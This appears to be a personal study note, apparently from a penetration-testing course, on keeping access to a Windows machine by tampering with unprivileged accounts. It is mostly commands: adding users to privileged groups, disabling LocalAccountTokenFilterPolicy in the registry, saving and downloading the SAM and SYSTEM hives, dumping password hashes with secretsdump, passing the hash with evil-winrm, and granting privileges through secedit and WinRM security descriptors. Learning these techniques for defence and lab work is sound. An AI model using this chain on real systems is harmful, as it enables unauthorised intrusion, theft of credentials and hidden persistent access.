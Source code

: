 #Windows #Persistence 

## Tampering With Unprivileged Accounts

##### Assign Group Memberships

**Method 1:**

`net localgroup administrators <username> /add` - Add a user to the "Administrators" group, can be too suspicious.

**Method 2:**

`net localgroup "Backup Operators" <username> /add` - Add a user the the "Backup Operators" group.
`net localgroup "Remote Management Users" <username> /add` - Add a user the the "Remote Management Users" group so it can WinRM back to the machine (add to the "Remote Desktop Users" group for RDP).
`evil-winrm -i <ip address> -u <username> -p <password>` - Connect to the machine from the attacker machine.

by issuing `whoami /groups` you'll see the "Backup Operators" group is disabled, this is because of User Account Control (UAC) which strips administrative privileges when logging in remotely by using **LocalAccountTokenFilterPolicy**.

`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1` - Change this registry key to 1 to disable **LocalAccountTokenFilterPolicy**.

Now you can connect with `evil-winrm` again and you will see the "Backup Operators" group enabled.

`reg save hklm\system system.bak` and `reg save hklm\sam sam.bak` - Make a backup of the sam and system files.
`download system.bak` and `download sam.bak` - Download the files to your machine, if it takes a long time you can use another method.
`python3 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL` - Dump the password hashes for all users.
`evil-winrm -i <ip address> -u Administrator -H hash` - Perform Pass-the-Hash attack to connect with administrative privileges. 

##### Special Privileges and Security Descriptors

You can directly add privileges to users without adding them to any group.
The "Backup Operators Group" has to privileges, **SeBackupPrivilege** which lets you read any file on the system and **SeRestorePrivilege** which lets you write to any file on the system.

`secedit /export /cfg config.inf` - Export  the current configuration to a temporary file.

Now change the respective lines:
![[765671a0355e2260c44e5a12a10f090e.png]]

`secedit /import /cfg config.inf /db config.sdb` - Convert the .inf file to a .sdb file.
`secedit /configure /db config.sdb /cfg config.inf` - Load the configuration back into the system.

Now instead of adding the user to the "Remote Management Users" group change the security descriptor (like an ACL but applied to other system facilities) associated with the WinRM service.

`Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI` - Open WinRM's security descriptor.
